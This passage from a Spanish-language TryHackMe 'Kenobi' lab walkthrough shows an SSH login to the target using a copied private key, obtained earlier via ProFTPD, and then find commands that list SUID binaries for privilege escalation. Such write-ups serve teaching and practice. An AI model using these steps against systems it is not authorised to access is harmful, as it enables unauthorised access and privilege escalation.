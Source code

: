 ```bash
sudo apt install cifs-utils
```

Una vez tenemos montada la ruta `/var` en nuestro equipo, procederemos a copiarnos el archivo `id_rsa` que movimos con anterioridad haciendo uso de `ProFTPD`.

Finalmente, podemos conectarnos a la máquina víctima a través de `SSH` sin proporcionar contraseña, ya que tenemos en nuestro poder la _clave privada_ del usuario `Kenobi`, no obstante, antes de hacerlo, vamos a asignar los permisos correspondientes al archivo `id_rsa`.

```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa kenobi@<dirección IP>
```

![14](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-07-Kenobi-TryHackMe/14.png){:class="blog-image" onclick="expandImage(this)"} 

### [](#header-3)Escalada De Privilegios

Para realizar esta última fase, la misma plataforma de _TryHackMe_ nos sugiere aprovecharnos de algún binario con permisos mal asignados, concretamente permisos `SUID`. 

Para listar todos aquellos binarios con permisos `SUID` asignados, tenemos varias opciones, no obstante, estas son las que yo utilizo:

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```

```bash
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

![15](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-07-Kenobi-TryHackMe/15.png){:class="blog-image" onclick="expandImage(this)"} 
